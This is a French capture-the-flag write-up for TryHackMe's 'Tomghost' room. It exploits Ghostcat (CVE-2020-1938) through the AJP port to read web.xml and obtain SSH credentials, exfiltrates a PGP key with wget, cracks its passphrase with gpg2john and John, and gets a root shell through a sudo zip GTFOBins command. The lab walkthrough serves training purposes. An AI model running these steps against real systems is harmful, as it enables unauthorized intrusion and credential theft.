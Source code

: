 # TryHackMe – Tomghost 

> **Objectif :** démontrer pas à pas l’exploitation de la vulnérabilité **Ghostcat** (CVE-2020-1938) sur Apache Tomcat, puis élever les privilèges jusqu’au root en déchiffrant une archive PGP et en abusant d’un binaire SUID.  

---

## 1. Reconnaissance réseau

### 1.1 Scan Nmap

```bash
nmap -p- -sV -A 10.10.197.181
```

| Port | Service | Version             | Intérêt                         |
|------|---------|---------------------|---------------------------------|
| 22   | SSH     | OpenSSH 7.2p2       | Accès distant (à garder en tête)|
| 53   | DNS     | **tcpwrapped**      | Non exploité ici                |
| 8009 | AJP13   | Apache JServ 1.3    | **Vecteur Ghostcat**            |
| 8080 | HTTP    | Apache Tomcat 9.0.30| Interface Web par défaut        |

> Ghostcat s’appuie sur le port **AJP 8009** par défaut ; le scanner confirme que le service est exposé.

---

## 2. Analyse du serveur Tomcat

### 2.1 Page d’accueil

Accéder à : `http://10.10.197.181:8080` – la page d’accueil par défaut d’Apache Tomcat affiche la version **9.0.30**.

### 2.2 Recherche de vulnérabilité

Une recherche rapide « tomcat 9.0.30 ghostcat » renvoie la CVE-2020-1938 et l’article Tenable :  
<https://www.tenable.com/blog/cve-2020-1938-ghostcat-…>

---

## 3. Exploitation Ghostcat

### 3.1 Récupération de l’exploit

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487
cd Ghostcat-CNVD-2020-10487
```

### 3.2 Lecture du fichier *web.xml*

```bash
python3 ajpShooter.py http://10.10.197.181 8009 /WEB-INF/web.xml read
```

Sortie pertinente :

```
...
Welcome to GhostCat
skyfuck:***********************
```

> Le couple `skyfuck:<mot_de_passe>` apparaît dans la balise `<description>` : **identifiants SSH** récupérés directement depuis le code XML.

---

## 4. Connexion SSH et premier flag

```bash
ssh skyfuck@10.10.197.181
# mot de passe récupéré plus haut
```

Arborescence :

```
credential.pgp      # archive chiffrée
tryhackme.asc       # clé privée PGP
```

Le flag *user* se trouve dans le home d’un autre utilisateur :

```bash
find / -name user.txt 2>/dev/null
cat /home/merlin/user.txt
```

---

## 5. Escalade : de *skyfuck* à *merlin*

### 5.1 Importer la clé ASC

```bash
gpg --import tryhackme.asc
```

### 5.2 Déchiffrer ? GPG demande une **passphrase inconnue**.

---

## 6. Extraction de la passphrase (côté attaquant)

1. **Exfiltrer** `tryhackme.asc` :

   ```bash
   # cible
   python3 -m http.server 8000
   # attaquant
   wget http://10.10.197.181:8000/tryhackme.asc
   ```

2. **Convertir en hash John** :

   ```bash
   gpg2john tryhackme.asc > mdp
   ```

3. **Craquer la passphrase** (rockyou) :

   ```bash
   john mdp --wordlist=/usr/share/wordlists/rockyou.txt
   ```

   Sortie : `********** (passphrase pour déchiffrer la clé PGP !!)`

---

## 7. Déchiffrement de `credential.pgp`

```bash
gpg --decrypt credential.pgp     # saisir la passphrase trouvée
```

Contenu :

```
merlin:<mot_de_passe_merlin>
```

Changement d’utilisateur :

```bash
su merlin
```

---

## 8. Escalade root via *zip* SUID

### 8.1 Vérifier les droits

```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/zip
```

### 8.2 Exploitation (méthode GTFOBins)

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Une shell root s’ouvre :

```bash
whoami   # root
cat /root/root.txt
```

---

## 9. Récapitulatif des phases

| Phase | Technique | Élément gagné |
|-------|-----------|---------------|
| 1     | Scan Nmap | Découverte AJP 8009 |
| 2     | Ghostcat  | Credentials *skyfuck* |
| 3     | SSH       | Accès utilisateur & fichiers PGP |
| 4     | gpg2john  | Passphrase clé privée |
| 5     | GPG decrypt | Credentials *merlin* |
| 6     | SUID zip  | Root shell & flag |

---

## 10. Points clés à retenir

1. **Ghostcat** → pensez AJP, pas seulement HTTP.  
2. Un couple **.asc + .pgp** ≠ inutile : exploitable via *gpg2john*.  
3. Les **GTFOBins** sont incontournables pour exploiter rapidement un binaire SUID.

---

### Références

- CVE-2020-1938 : <https://www.tenable.com/blog/cve-2020-1938-ghostcat…>  
- Exploit Ghostcat : <https://github.com/00theway/Ghostcat-CNVD-2020-10487>  
- gpg2john : <https://github.com/openwall/john>  
- GTFOBins ZIP : <https://gtfobins.github.io/gtfobins/zip/>

---

**Auteur :** Saad Idrissi
